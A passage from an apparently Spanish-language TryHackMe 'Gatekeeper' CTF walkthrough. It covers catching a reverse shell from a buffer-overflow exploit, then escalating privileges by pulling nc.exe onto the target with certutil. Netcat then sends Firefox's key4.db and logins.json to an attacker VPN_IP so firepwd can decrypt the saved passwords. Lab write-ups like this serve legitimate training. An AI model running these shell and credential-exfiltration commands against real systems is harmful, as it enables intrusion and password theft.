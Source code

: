 ```

Añadiremos 32 NOP (\x90) ya que muchas veces creando una shell con msfvenom tienden a autodestruirse y necesitan más espacio en blanco para funcionar.

# Ejecutando el exploit contra gatekeeper.exe

Vamos a poner una terminal a la escucha con ```nc -nvlp 4444``` después de esto ejecutar el exploit con ```python3 file.py```

Si todo ha funcionado correctamente deberíais estar dentro de la máquina.

![cc7d93d30fdcea4a65528e34675baeca](https://user-images.githubusercontent.com/107114264/173077994-746fd60d-6ce9-4a09-8c22-fcce4ff70532.png)

# Escalado de Privilegios

En este mismo directorio nos encontramos con la primera flag ```user.txt.txt``` podéis verlo con ```dir``` y leerlo con ```more user.txt.txt```

A partir de ahora vamos a empezar la escalada hacia ```root```

Dentro de la máquina de Tryhackme iremos al siguiente directorio usando ```C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release```

Si hacemos un ```dir``` encontramos dos archivos ```key4.db``` y ```loging.json``` básicamente son claves encriptadas antes guardadas en Mozilla Firefox.

![3e62072ece45f2b679ee71e5fa98d968](https://user-images.githubusercontent.com/107114264/173079517-1af0d6aa-c229-4ab8-b145-ae9a45ad0951.png)

Primero de todo en nuestra Kali descargaremos netcat para más tarde pasarla a la windows y poder coger esos dos archivos.

```wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip``` Le hacemos un unzip.

También descargaremos ```https://github.com/lclevy/firepwd.git``` que será nuestra herramienta para desencriptar las claves.

Ahora haremos un servidor con ```python3 -m http.server``` y podremos coger el nc con ```certutil -urlcache -f "http://VPN_IP:8000/nc.exe" nc.exe```

![0923c1540a7aed4bce15a4da6a491d9e](https://user-images.githubusercontent.com/107114264/173079826-8154adbd-54c8-4330-9e43-ed9db955254b.png)

Primero ponemos a la escucha con estos comandos,para recibir los dos archivos de la misma manera ```nc -nlvp 1234 > logins.json``` ```nc -nlvp 1234 > key4.db```

Después de estar a la escucha en la máquina de Tryhackme ejecutaremos ```nc.exe -nv VPN_IP 1234 < logins.json``` ```nc.exe -nv VPN_IP 1234 < key4.db```

![cdbc196f268cd005f20552b0bd3e572d](https://user-images.githubusercontent.com/107114264/173080475-a1fcf4ab-3e47-4d02-ba15-d623cb173e6f.png)

Así igual con logins.json.

![e2dc0c4e6ca4838306737d960d70fb9b](https://user-images.githubusercontent.com/107114264/173080706-84d099ec-d456-4fff-9247-2d441b872909.png)

Ahora necesitamos pasar estos dos archivos a nuestra carpeta firepwd. ```mv key4.db firepwd/```  ```mv logins.json firepwd/```

Entramos dentro del directorio firepwd y instalamos los requeriments.txt con ```pip install -r requirements.txt```
```